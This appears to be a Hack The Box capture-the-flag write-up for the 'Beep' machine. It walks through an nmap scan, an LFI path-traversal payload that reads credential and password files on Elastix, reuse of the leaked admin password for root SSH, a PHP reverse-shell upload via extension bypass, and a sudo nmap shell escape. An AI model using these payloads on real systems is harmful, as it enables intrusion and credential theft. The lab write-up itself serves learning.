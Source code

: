 ```yaml
---
title:     "Hack The Box - Beep"
tags: [linux,easy,setuid,cve,lfi,file-upload-vuln]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/5>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

><https://gtfobins.github.io/gtfobins/nmap/>

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/18.png)

I'm Root now!


